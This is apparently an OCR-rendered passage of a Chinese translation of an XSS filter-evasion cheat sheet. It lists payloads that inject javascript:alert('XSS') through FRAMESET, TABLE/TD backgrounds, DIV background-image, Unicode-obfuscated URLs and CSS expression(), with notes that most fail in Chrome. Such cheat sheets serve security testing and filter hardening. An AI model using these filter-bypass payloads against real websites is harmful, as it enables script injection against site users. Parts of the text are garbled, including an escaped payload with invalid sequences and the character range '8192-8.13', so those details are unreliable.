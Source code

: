 Frames 和 iframe 一样有很多 XSS 问题: \`

<FRAMESET>
<FRAME SRC="javascript:alert('XSS');">
</FRAMESET>

\`

`（注意：FRAMESET标签不能和body标签一起使用）`

### 2-64 TABLE（chrome 测试无效）

`<TABLE BACKGROUND="javascript:alert('XSS')">`

#### 2-64-1 TD（chrome 测试无效）

和上面一样，TD 也可以通过 BACKGROUND 来包含 JavaScript XSS 攻击向量:

`<TABLE><TD BACKGROUND="javascript:alert('XSS')">`

### 2-65 DIV

#### 2-65-1 DIV 背景图像（chrome 测试无效）

`<DIV STYLE="background-image: url(javascript:alert('XSS'))">`

#### 2-65-2 使用 Unicode XSS 代码设置 DIV 背景图像（chrome 测试无效）

这进行了一些修改来混淆 URL 参数。原始的漏洞是由 Renaud Lifchitz 在
Hotmail 发现的:

`<DIV STYLE="background-image:\0075\0072\006C\0028'\006a\0061\0076\0061\0073\0063\0072\0069\0070\0074\003a\0061\006c\0065\0072\0074\0028.1027\0058.1053\0053\0027\0029'\0029">`

#### 2-65-3 含有额外字符的 DIV 背景图像（chrome 测试无效）

Rnaske 进行了一个快速的 XSS 模糊测试来发现 IE 和安全模式下的 Netscape
8.1 中任何 可以在左括号和 JavaScript
指令间加入的额外字符。这都是十进制的但是你也可以使用十
六进制来填充(以下字符可用:1-32, 34, 39, 160, 8192-8.13, 12288, 65279):

`<DIV STYLE="background-image: url(&#1;javascript:alert('XSS'))">`

`（注意：chrome测试的时候，均提示css属性值不对，chrome测试均无效）`

#### 2-65-4 DIV 表达式（chrome 测试无效）

一个非常有效的对抗现实中的跨站脚本过滤器的变体是在冒号和"expression"之间添加一个换行:

`<DIV STYLE="width: expression(alert('XSS'));">`

### 2-66 html 条件选择注释块（chrome 测试无效，尽在 IE5.0 及更高版本和 IE 渲染引擎模式下的 Netscape 8.1 生效）

只能在 IE5.0 及更高版本和 IE 渲染引擎模式下的 Netscape 8.1
生效。一些网站认为在注释
中的任何内容都是安全的并且认为没有必要移除，这就允许我们添加跨站脚本攻击向量。系
统会在一些内容周围尝试添加注释标签以便安全的渲染它们。如我们所见，这有时并不起作用:
